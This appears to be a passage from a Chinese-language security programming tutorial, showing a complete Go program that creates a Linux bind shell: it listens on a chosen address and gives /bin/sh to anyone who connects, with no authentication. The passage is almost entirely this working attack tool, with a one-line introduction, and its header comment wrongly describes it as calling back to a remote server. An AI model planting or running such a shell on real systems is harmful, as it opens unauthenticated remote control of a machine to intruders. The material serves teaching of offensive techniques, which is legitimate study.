 在下一个示例中，我们将使用内置的`/bin/sh`shell 为 Linux 创建绑定 shell。它将绑定并侦听连接，为连接的任何人提供 shell：

```go
// Call back to a remote server and open a shell session
package main

import (
   "fmt"
   "log"
   "net"
   "os"
   "os/exec"
)

var shell = "/bin/sh"

func main() {
   // Handle command line arguments
   if len(os.Args) != 2 {
      fmt.Println("Usage: " + os.Args[0] + " <bindAddress>")
      fmt.Println("Example: " + os.Args[0] + " 0.0.0.0:9999")
      os.Exit(1)
   }

   // Bind socket
   listener, err := net.Listen("tcp", os.Args[1])
   if err != nil {
      log.Fatal("Error connecting. ", err)
   }
   log.Println("Now listening for connections.")

   // Listen and serve shells forever
   for {
      conn, err := listener.Accept()
      if err != nil {
         log.Println("Error accepting connection. ", err)
      }
      go handleConnection(conn)
   }

}

// This function gets executed in a thread for each incoming connection
func handleConnection(conn net.Conn) {
   log.Printf("Connection received from %s. Opening shell.", 
   conn.RemoteAddr())
   conn.Write([]byte("Connection established. Opening shell.\n"))

   // Use the reader/writer interface to connect the pipes
   command := exec.Command(shell)
   command.Stdin = conn
   command.Stdout = conn
   command.Stderr = conn
   command.Run()

   log.Printf("Shell ended for %s", conn.RemoteAddr())
} 
```
